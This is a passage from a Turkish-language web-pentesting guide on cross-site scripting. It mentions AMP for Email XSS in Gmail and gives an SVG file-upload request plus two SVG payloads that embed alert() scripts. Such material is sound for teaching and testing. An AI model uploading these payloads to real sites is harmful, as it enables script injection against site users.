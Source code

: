 {{#ref}}
server-side-xss-dynamic-pdf.md
{{#endref}}

Eğer HTML etiketlerini enjekte edemiyorsanız, **PDF verisi enjekte etmeyi** denemek faydalı olabilir:

{{#ref}}
pdf-injection.md
{{#endref}}

### Amp4Email'de XSS

AMP, mobil cihazlarda web sayfası performansını hızlandırmayı amaçlayarak, hız ve güvenliğe vurgu yaparak işlevselliği sağlamak için JavaScript ile desteklenen HTML etiketlerini içerir. Çeşitli özellikler için bir dizi bileşeni destekler ve bunlara [AMP bileşenleri](https://amp.dev/documentation/components/?format=websites) aracılığıyla erişilebilir.

[**AMP for Email**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) formatı, belirli AMP bileşenlerini e-postalara genişleterek alıcıların içerikle doğrudan e-postaları içinde etkileşimde bulunmalarını sağlar.

Örnek [**Gmail'de Amp4Email'de XSS yazımı**](https://adico.me/post/xss-in-gmail-s-amp4email).

### XSS dosya yükleme (svg)

Aşağıdaki gibi bir dosyayı ( [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/) ) bir resim olarak yükleyin:
```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert(1);
</script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```
